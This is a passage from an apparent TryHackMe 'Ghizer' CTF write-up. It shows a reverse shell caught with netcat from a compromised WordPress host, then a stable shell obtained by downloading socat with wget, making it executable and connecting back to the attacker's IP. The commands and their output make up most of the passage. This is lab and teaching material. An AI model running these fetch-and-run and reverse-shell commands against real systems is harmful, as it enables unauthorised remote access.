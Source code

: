 - Activate the plugin:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Ghizer/images/a10.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.8.27.249] from (UNKNOWN) [10.10.160.234] 37300
bash: cannot set terminal process group (1003): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/wordpress/wp-admin$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:56:23:b0:c1:77 brd ff:ff:ff:ff:ff:ff
    inet 10.10.160.234/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::56:23ff:feb0:c177/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `www-data`!

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@ubuntu:/var/www/html/wordpress/wp-admin$ wget http://10.8.27.249/socat -O /dev/shm/socat;chmod +x /dev/shm/socat;/dev/shm/socat TCP:10.8.27.249:4445 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4445
2022/10/10 05:15:09 socat[36238] N opening character device "/dev/pts/3" for reading and writing
2022/10/10 05:15:09 socat[36238] N listening on AF=2 0.0.0.0:4445
                                                                 2022/10/10 05:15:48 socat[36238] N accepting connection from AF=2 10.10.160.234:38098 on AF=2 10.8.27.249:4445
                                                                        2022/10/10 05:15:48 socat[36238] N starting data transfer loop with FDs [5,5] and [7,7]
                                                        www-data@ubuntu:/var/www/html/wordpress/wp-admin$ 
www-data@ubuntu:/var/www/html/wordpress/wp-admin$ stty rows 22 columns 107
www-data@ubuntu:/var/www/html/wordpress/wp-admin$ export TERM=xterm-256color
www-data@ubuntu:/var/www/html/wordpress/wp-admin$ ^C     
www-data@ubuntu:/var/www/html/wordpress/wp-admin$ 
```
